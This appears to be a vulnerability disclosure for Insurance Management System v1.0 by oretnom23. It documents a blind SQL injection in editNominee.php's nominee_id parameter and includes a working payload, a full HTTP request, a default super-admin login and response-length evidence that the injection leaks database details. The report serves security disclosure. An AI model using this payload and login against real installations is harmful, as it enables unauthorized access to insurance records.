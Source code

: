# Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Login account: ahmed/12345 (Super Admin account)

Vulnerability File: /insurance/editNominee.php?nominee_id=

Vulnerability location: /insurance/editNominee.php?nominee_id=,nominee_id=

[+] Payload: /insurance/editNominee.php?nominee_id=1511989270-522970848%27%20and%20length(database())%20=4%20--+ // Leak place ---> nominee_id=

Current database name: lims,length is 4

```sql
GET /insurance/editNominee.php?nominee_id=1511989270-522970848%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4297

![image](https://user-images.githubusercontent.com/54017627/166145608-a4a96fa9-2dac-4f11-9553-db7b2e0cdb8b.png)

![image](https://user-images.githubusercontent.com/54017627/166145645-d65ea022-f297-4ebb-9743-5ff4af9d15e0.png)

When length (database ()) = 4, Content-Length: 5523

![image](https://user-images.githubusercontent.com/54017627/166145599-af8f06fd-ee6a-47e7-a041-0c66c6a42fee.png)

![image](https://user-images.githubusercontent.com/54017627/166145624-cb5d3dce-affd-4f55-b06b-444c9c0757aa.png)
